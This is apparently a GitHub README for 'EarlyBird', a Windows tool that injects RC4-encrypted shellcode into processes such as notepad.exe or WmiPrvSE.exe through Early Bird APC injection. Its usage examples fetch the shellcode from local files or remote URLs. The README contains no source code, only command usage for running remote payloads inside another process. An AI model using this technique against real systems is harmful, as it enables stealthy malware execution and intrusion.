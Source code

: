 EarlyBird APC Injection
===
Implementation of Early Bird APC Injection using DInvoke, with RC4 encryption, and the capability to receive the encrypted shellcode locally or remotely.

Usage
---
```
Usage [1]: Passing the shellcode locally and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode <shellcode-file>
        e.g. EarlyBird.exe -shellcode C:\Users\user\Desktop\shellcode.sc

Usage [2]: Passing the shellcode remotely and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode <url>
        e.g. EarlyBird.exe -shellcode https://example.com/shellcode.sc

Usage [3]: Passing the base64 encoded shellcode remotely and using the default process: C:\Windows\System32\notepad.exe
        e.g. EarlyBird.exe -shellcode base64:<url>
        e.g. EarlyBird.exe -shellcode base64:https://example.com/shellcode.txt

[i] You can change the target process by passing the -process flag to any of the three ways to run EarlyBird.exe
        e.g. EarlyBird.exe -shellcode base64:https://example.com/shellcode.txt -process C:\Windows\System32\Wbem\WmiPrvSE.exe
```
